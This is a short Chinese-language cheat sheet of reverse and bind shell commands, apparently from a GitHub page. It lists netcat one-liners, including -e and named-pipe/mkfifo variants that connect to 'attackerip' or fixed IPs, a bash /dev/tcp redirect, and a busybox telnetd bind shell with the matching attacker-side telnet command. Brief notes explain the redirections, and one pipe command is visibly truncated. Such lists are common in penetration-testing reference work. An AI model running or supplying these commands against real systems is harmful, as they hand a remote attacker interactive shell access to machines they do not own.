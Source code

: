 ### NetCat
```
nc -e /bin/sh 10.0.0.1 1234　　#不同版本的nc不一定支持-e选项
```
不能使用-e选项时：
```
mknod backpipe p && nc attackerip 8080 0<backpipe | /bin/bash 1>backpipe
/bin/sh | nc attackerip 4444
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/
```
安装的NC版本有问题时：
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
https://www.cnblogs.com/r00tgrok/p/reverse_shell_cheatsheet.html

---

### bash直接反弹
靶机
```
bash -i >& /dev/tcp/192.168.86.131/8080 0>&1
````
0是标准输入，1为标准输出，2是标准错误信息输出。
这个命令的意思是：bash产生了一个交互环境与本地主机主动发起与目标主机8080端口建立的连接（即TCP 8080 会话连接）相结合，然后在重定向个tcp 8080会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个bash 反弹环境。


https://www.smi1e.top/linux-%E5%8F%8D%E5%BC%B9shell%E6%96%B9%E6%B3%95/


### telnetd启动服务
靶机：
```
busybox telnetd -b XXX.XXX.XXX.XXX -p 1234 -l /bin/ash
```
busybox 不一定要加，看telnetd是否直接可用（配好了环境变量之类吧）
telnetd 启动telnet服务
-b 是bind到靶机外网能访问的网卡ip
-p 监听端口
-l 指定客户telnet之后所用shell

攻击机：
```
telnet XXX.XXX.XXX.XXX 1234
```
